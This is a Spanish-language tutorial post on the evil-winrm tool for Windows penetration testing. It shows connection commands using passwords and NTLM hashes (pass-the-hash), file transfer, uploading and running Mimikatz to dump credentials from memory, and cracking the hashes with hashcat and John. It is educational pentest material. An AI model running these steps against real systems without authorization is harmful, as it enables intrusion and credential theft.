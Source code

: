 ```yaml
---
layout: default
title: 🛡️ Evil-WinRM: Acceso remoto a sistemas Windows
---
```

# 🛡️ ¿Qué es `evil-winrm` y cómo usarlo para pruebas de penetración?  

`evil-winrm` es una herramienta poderosa, escrita en Ruby, que permite acceder a máquinas Windows remotas mediante **WinRM (Web Remote Management)**. Es una herramienta clave en la caja de herramientas de cualquier profesional de ciberseguridad o auditor de sistemas.

---

## 🔧 ¿Para qué sirve?

- **Acceso remoto seguro** a servidores Windows habilitados para WinRM.

- **Autenticación flexible**: soporta credenciales en texto plano o hashes NTLM.

- Permite:
  - Ejecutar comandos como si estuvieras en PowerShell.
  - Navegar por el sistema de archivos del objetivo.
  - Subir y bajar archivos.
  - Explorar vulnerabilidades y explotar scripts o aplicaciones web mal configuradas.

---

## 💻 Cómo usar `evil-winrm`

### ✅ Con credenciales

```bash
evil-winrm -i 192.168.1.10 -u Administrator -p password123
```

- `-i`: IP del servidor objetivo.
- `-u`: Nombre de usuario.
- `-p`: Contraseña.


### 🔐 Con hash NTLM

```bash
evil-winrm -i 192.168.1.10 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

- `-H`: Hash NTLM del usuario (`<LM_HASH>:<NTLM_HASH>`).

---

### 🛠️ Opciones adicionales útiles

| Opción | Descripción |
|--------|-------------|
| `-s`   | Carpeta con scripts Ruby para ejecutar. |
| `-l`   | Carpeta local para guardar archivos descargados. |
| `-P`   | Puerto personalizado (por defecto 5985 para HTTP). |

---


## 🧪 Ejemplo práctico

```bash
evil-winrm -i 192.168.1.10 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

Una vez conectado:

```powershell
PS C:\Users\Administrator\Desktop> dir
PS C:\Users\Administrator\Desktop> whoami
PS C:\Users\Administrator\Desktop> Get-ChildItem
```

---

## 📥 Transferencia de archivos

### Descargar un archivo del servidor:

```powershell
download C:\Users\Administrator\Desktop\secreto.txt
```

### Subir un archivo desde tu máquina:

```powershell
upload /home/kali/archivo.exe C:\Users\Administrator\Desktop\
```

---

## 🕵️‍♂️ Captura de hashes con `evil-winrm`

Si tienes acceso al sistema, puedes usar **Mimikatz** para extraer hashes de memoria.

### Pasos básicos:

1. Subir Mimikatz:

```bash
upload mimikatz_trunk/mimikatz.exe C:\Users\Administrator\Desktop
```

2. Ejecutar Mimikatz:

```powershell
cd C:\Users\Administrator\Desktop
.\mimikatz.exe
```

3. Comandos dentro de Mimikatz:

```powershell
privilege::debug
sekurlsa::logonpasswords
```

Esto te mostrará contraseñas en claro, hashes NTLM y más.

---

## 🔁 Reutilizar hashes obtenidos

Los hashes capturados pueden ser usados con otras herramientas como:

- `evil-winrm` (como ya vimos).
- Herramientas de `Impacket` (`ntlmrelayx.py`, `wmiexec.py`, etc.).

---

## 🔐 ¿Cómo descifrar hashes NTLM?

### Tipos de hashes

| Tipo        | Descripción |
|-------------|-------------|
| **LM Hash** | Obsoleto, fácil de crackear. |
| **NTLM Hash** | Más fuerte, pero también crackeable. |

---

### Herramientas recomendadas

#### 1. `hashcat`

```bash
hashcat -m 1000 hash.txt /ruta/a/diccionario.txt
```

- `-m 1000`: Modo NTLM.
- `hash.txt`: Archivo con los hashes.
- `/ruta/a/diccionario.txt`: Diccionario de contraseñas.

#### 2. `john the ripper`

```bash
john --wordlist=/ruta/a/diccionario.txt hash.txt
```

---

## 📌 Conclusión

`evil-winrm` es una herramienta esencial para profesionales de ciberseguridad, especialmente en entornos Windows. Combina facilidad de uso con potencia, permitiendo tanto acceso remoto como análisis forense y extracción de credenciales.

¡Comparte este contenido y aprendamos juntos! 👨‍💻👩‍💻 #Ciberseguridad #PenTest #EvilWinRM #HashesNTLM #Redes #Cybersecurity #Windows #EthicalHacking

![Evil-WinRM](https://www.kali.org/tools/evil-winrm/images/evil-winrm-logo.svg)

